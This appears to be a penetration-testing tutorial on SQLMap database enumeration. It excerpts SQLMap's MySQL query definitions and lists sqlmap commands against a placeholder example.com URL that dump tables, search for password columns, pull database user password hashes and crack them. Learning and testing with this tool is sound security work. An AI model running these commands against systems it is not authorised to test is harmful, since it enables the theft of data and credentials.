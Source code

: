 # Database Enumeration
Consists of lookup and retrieval (i.e., exfiltration) of all the available information from the vulnerable database.
## SQLMap Data Exfiltration
SQLMap has a predefined set of queries for all supported DBMSes, where each entry represents the SQL that must be run at the target to retrieve the desired content.

For example, the excerpts from [queries.xml](https://github.com/sqlmapproject/sqlmap/blob/master/data/xml/queries.xml) for a MySQL DBMS can be seen below:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <dbms value="MySQL">
        <!-- http://dba.fyicenter.com/faq/mysql/Difference-between-CHAR-and-NCHAR.html -->
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
...SNIP...
        <banner query="VERSION()"/>
        <current_user query="CURRENT_USER()"/>
        <current_db query="DATABASE()"/>
        <hostname query="@@HOSTNAME"/>
        <table_comment query="SELECT table_comment FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='%s' AND table_name='%s'"/>
        <column_comment query="SELECT column_comment FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='%s' AND table_name='%s' AND column_name='%s'"/>
        <is_dba query="(SELECT super_priv FROM mysql.user WHERE user='%s' LIMIT 0,1)='Y'"/>
        <check_udf query="(SELECT name FROM mysql.func WHERE name='%s' LIMIT 0,1)='%s'"/>
        <users>
            <inband query="SELECT grantee FROM INFORMATION_SCHEMA.USER_PRIVILEGES" query2="SELECT user FROM mysql.user" query3="SELECT username FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
            <blind query="SELECT DISTINCT(grantee) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT %d,1" query2="SELECT DISTINCT(user) FROM mysql.user LIMIT %d,1" query3="SELECT DISTINCT(username) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS LIMIT %d,1" count="SELECT COUNT(DISTINCT(grantee)) FROM INFORMATION_SCHEMA.USER_PRIVILEGES" count2="SELECT COUNT(DISTINCT(user)) FROM mysql.user" count3="SELECT COUNT(DISTINCT(username)) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
        </users>
    ...SNIP...
```
- For example, if a user wants to retrieve the "banner" (switch `--banner`) for the target based on MySQL DBMS, the `VERSION()` query will be used for such purpose.
- In case of retrieval of the current user name (switch `--current-user`), the `CURRENT_USER()` query will be used.

Retrieving all the usernames (i.e., tag `<users>` requires two queries to be used, depending on the situation:
1. The query marked as `inband` is used in all non-blind situations (i.e., UNION-query and error-based SQLi), where the query results can be expected inside the response itself. 
2. The query marked as `blind`, on the other hand, is used for all blind situations, where data has to be retrieved row-by-row, column-by-column, and bit-by-bit.
## Basic DB Data Enumeration
Enumeration usually starts with the retrieval of the basic information after a successful detection of an SQLi vulnerability, aiming to retrieve:
- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights (switch `--is-dba`)

The following SQLMap command does all of the above:
```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
## Table Enumeration
After finding the current database name (i.e. `testdb`), the retrieval of table names would be by using the `--tables` option and specifying the DB name with `-D testdb`, is as follows:
```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

We then use the `--dump` option and specifying the table name with `-T users` to get its content, as follows:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```
## Table/Row Enumeration
When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only `name` and `surname` columns) with the `-C` option, as follows:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the `--start` and `--stop` options (e.g., start from 2nd up to 3rd entry), as follows:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```
## Conditional Enumeration
If there is a requirement to retrieve certain rows based on a known `WHERE` condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```
## Full DB Enumeration
Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option `-T` altogether and simply using the switch `--dump`
- As for the `--dump-all` switch, all the content from all the databases will be retrieved.

> In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.
# Advanced Database Enumeration
## DB Schema Enumeration
If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture, we could use the switch `--schema`:
```bash
sqlmap -u "http://www.example.com/?id=1" --schema
```
## Searching for Data
We can search for databases, tables, and columns of interest, by using the `--search` option.
- Enables us to search for identifier names by using the `LIKE` operator. 

Example: if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:
```bash
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

We can also search for all column names based on a specific keyword (e.g. `pass`):
```bash
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```
## Password Enumeration and Cracking
Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

We can see that SQLMap has automatic password hashes cracking capabilities.
- Upon retrieving any value that resembles a known hash format, SQLMap prompts us to perform a dictionary-based attack on the found hashes.
- If a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.
## DB Users Password Enumeration and Cracking
Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials).
- SQLMap has a special switch `--passwords` designed especially for such a task:
```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```
> Tip: The '--all' switch in combination with the '--batch' switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.